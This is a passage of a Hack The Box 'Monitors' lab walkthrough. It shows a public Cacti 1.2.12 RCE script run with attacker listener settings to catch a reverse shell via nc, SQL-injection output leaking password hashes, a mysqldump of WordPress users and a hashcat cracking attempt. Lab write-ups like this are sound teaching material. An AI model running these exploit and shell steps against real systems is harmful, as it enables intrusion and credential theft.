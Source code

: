 A new vhost! Add it to /etc/hosts.


3. On http://cacti-admin.monitors.htb we are presented with a login prompt, testing the creds admin:BestAdministrator@2020!
give us successful login. We see that it's running Cacti version 1.2.12.

Googling for Cacti 1.2.12 exploits we find a python RCE. Downloading it and execute gives us a reverse shell!

  [root:/git/htb/monitors]# python3 cacti-rce.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost 10.10.14.12 --lport 4488
    [+] Connecting to the server...
    [+] Retrieving CSRF token...
    [+] Got CSRF token: sid:97352a3ee6f8c68e07088e88d2e75ed5df8bc588,1620638867
    [+] Trying to log in...
    [+] Successfully logged in!

    [+] SQL Injection:
    "name","hex"
    "",""
    "admin","$2y$10$TycpbAes3hYvzsbRxUEbc.dTqT0MdgVipJNBYu8b7rUlmB8zn8JwK"
    "guest","43e9a4ab75570f5b"

    [+] Check your nc listener!

  [root:/git/htb/monitors]# nc -lvnp 4488                                                                                           (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.12] from (UNKNOWN) [10.10.10.238] 38356
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

Upgrade the shell;
  www-data@monitors:/usr/share/cacti/cacti$


4. We can try to dump the mysql database for WordPress, in order to crack the admin password.

  www-data@monitors:/usr/share/cacti/cacti$ mysqldump wordpress wp_users -u wpadmin -p
    Enter password: BestAdministrator@2020!
    ..
    LOCK TABLES `wp_users` WRITE;
    /*!40000 ALTER TABLE `wp_users` DISABLE KEYS */;
    INSERT INTO `wp_users` VALUES (1,'admin','$P$Be7cx.OsLozVI5L6DD60LLZNoHW9dZ0','admin','admin@monitor.htb','http://192.168.1.40','2020-10-15 13:45:42','1620579357:$P$BPWRkUQGNxbjdPxyenG7IVioT6ri7t.',0,'admin');

  [root:/git/htb/monitors]# hashcat -a0 -m400 admin.hash /usr/share/wordlists/rockyou.txt
    ..
    Session..........: hashcat
    Status...........: Exhausted
    Hash.Name........: phpass
    Hash.Target......: $P$Be7cx.OsLozVI5L6DD60LLZNoHW9dZ0

No luck.. instead go the normal route and upload linpeas.
